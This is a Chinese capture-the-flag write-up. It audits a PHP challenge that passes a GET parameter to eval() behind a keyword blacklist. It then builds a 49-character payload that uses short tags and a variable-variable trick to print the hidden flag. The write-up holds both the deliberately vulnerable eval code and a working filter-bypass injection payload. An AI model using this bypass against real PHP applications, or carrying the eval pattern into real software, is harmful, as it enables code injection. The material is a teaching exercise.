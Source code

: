 # 冬至红包

![image-20210119101414977](../../../image/image-20210119101414977.png)

我靠，这个可以领红包

亏大了

现在才做

![image-20210119101503876](../../../image/image-20210119101503876.png)

进入题目

代码审计啊

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo '长度不允许';
    }
    else if (preg_match('/`|"|/.|////|/(|/)|/[|/]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

这里的代码意思是没有传入flag值得时候会显示Click here得链接

如果点了链接就会传入变量$exam，就是sha1编码过后得当前时间

还会判断传入的flag参数的长度，如果长度不弱等于变量$exam就打印'长度不允许'

再正则匹配过滤掉一些字符还有一些关键字

再判断GET请求传入的flag值绝对等于sha1值得flag

就打印flag，否则就打印'马老师发生了什么事'

-----------------------------------



因为不知到flag是什么所以不可能传如的值绝对等于flag的sha1值

所以要另求他法

这里有一个eval的函数

这个函数可以执行任意php代码漏洞

可以通过打印变量$flag来获取flag

但是这里过滤了echo和print几个打印的函数

也过滤了flag这个单词

emmmmmm

______________



没头绪了一段时间

在网上找到了一个另类的打印方式

当php开启短标签后

能正常解析php代码

然后php还有一个[语法糖]([语法糖_百度百科 (baidu.com)](https://baike.baidu.com/item/语法糖))

```php
<?=$a;?>
```

这样可以打印变量

```php
  1 <?php $a = 'flag'; ?>
  2 <?= $a ?>
```

这里执行的结果就是

![image-20210119114845901](../../../image/image-20210119114845901.png)







```php
  1 <?php
  2 $b = 'hello';
  3 eval($_GET['a']);
```

这里执行结果就是

![image-20210119151421204](../../../image/image-20210119151421204.png)

这里传参过去执行的话要闭合原来的这个<?php标签，不然会报错

所以开始构造payload

```php
$a=alag;$a{0}=f;1111111111111111111111;?><?=$$a?>
```

因为过滤了flag这个词

所以给一个变量$a值设为alag

然后使用$a{0}=f;把第一个a给变成f

让变量$a的值变为flag，添加一些垃圾字符，再闭合<?php标签，再用短标签使用可变变量$$a让变量$a变为$flag，就打印了flag

添加垃圾字符的原因是因为对比的变量$exam长度就是49

所以也要让payload也变成49

```php
  1 <?php
  2 $b = 'return\'' . sha1(time()) . '\';';
  3 echo strlen($b);
```

执行结果就是

![image-20210119152457359](../../../image/image-20210119152457359.png)



运行payload就得到flag了

![image-20210119152832149](../../../image/image-20210119152832149.png)